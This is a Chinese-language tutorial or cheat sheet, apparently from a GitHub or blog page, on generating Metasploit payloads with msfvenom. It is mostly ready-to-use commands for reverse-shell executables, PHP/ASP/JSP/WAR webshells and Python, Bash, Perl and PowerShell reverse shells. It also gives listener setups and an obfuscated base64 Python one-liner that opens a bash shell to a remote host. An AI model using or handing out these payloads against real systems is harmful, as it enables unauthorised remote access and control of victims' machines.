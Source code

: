 生成适用于`msf`的`payload`以及利用

主要记录一下常用的`payload`以及如何使用。

生成`payload`使用的工具是`MSFVenom`

在`kali`下可以使用如下命令列出`MSFVenom`可以生成的`payload`列表：

`msfvenom -l`



-----
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。


```
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

如何利用
针对这个部分就以`Windows`为例，使用上面的命令生成一个`exe`的`payload`

命令如下：

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f exe > shell.exe`

 
-----

 
复制`shell.exe`到`Windows`机器，然后`kali`下开启`msf`使用如下命令监听`4444`端口：

```
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
执行完之后在Windows下执行`shell.exe`，然后等结果

-----
 
在这里既然使用到了在Windows下执行应用程序，我们就大概盘点一下在Windows执行应用程序的几种方式：

双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
生成webshell脚本
在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成一个可以用msf操作的webshell呢？

- PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

 
- ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

- JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

- WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

------
## 利用

下面以php为例做一下测试，使用以下命令生成一个webshell：

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php`

 
在kali上使用msf执行下面的命令，监听端口4444：
```
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z

```
将`shell.php` 放在`web`目录下，使用 **浏览器访问**，或者使用以下命令执行：

`php shell.php`

------- 

## 脚本`shell`

关于使用脚本反弹`shell`的方式，主要以`python`、`bash`、`perl`为例。

- Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

- Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

- Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

- Powershell
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1`

`powershell.exe -ExecutionPolicy Bypass -File shell.ps1`

----
## 使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：

`msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py`

 
在kali上使用msf执行下面的命令，监听端口4444：

```
msfconsole

use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
然后复制`shell.py`中的内容在linux命令行下执行，如下：
```
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```
 



## 总结
`msfvenom`生成常用的反向连接的`shell`，`msfvenom`可以生成的`shell`很多